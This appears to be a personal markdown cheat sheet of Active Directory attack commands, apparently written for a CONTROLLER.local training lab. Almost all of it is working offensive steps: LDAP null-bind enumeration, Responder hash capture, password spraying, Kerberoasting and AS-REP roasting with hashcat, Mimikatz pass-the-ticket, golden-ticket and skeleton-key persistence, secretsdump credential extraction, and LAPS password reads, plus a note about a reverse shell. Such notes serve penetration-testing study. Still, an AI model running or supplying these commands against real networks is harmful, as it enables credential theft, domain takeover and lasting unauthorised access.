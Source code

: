 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search 
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames
  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)

# Responder #
1. Start up responder
  a. sudo responder -I tun0
  b. Call request either smb or website (download a file from your python server)
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
    a Rubeus.exe harvest /interval:30
  2. Brute force Password1 against all users
    a Rubeus.exe brute /password:Password1 /noticket
  3. Kerberoast -dump hashes of any kerberoastable users
    a Rubeus.exe kerberoast
    b Copy hash to hash.txr watch out for spaces
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
    a. rubeus.exe asreproast
    b Get all accounts that do not require pre authentication
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    d hashcat -m 18200 hash.txt rockyou.txt
  2. Impacket GetNPUsers.py
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    c Choose a ticket with admin (or user you want)
    d kerberos::ptt <ticket file name>
    e exit mimi
    f klist (show that you have now changed)
 3. Gold and Silver Tickets
    a run as admin
    b privilege::debug
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
    d Gold ticket -> 			i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
 4. Mimikatz skeleton
		a. run as admin
		b. privilege::debug
		c. misc::skeleton
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1![image](https://user-images.githubusercontent.com/6464797/152891832-b09edb4c-c062-4219-a5d3-fa8262a52d4d.png)

# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    b. Powershell schedule task to run rev shell with admin priv?

  #Lateral Movements #

 


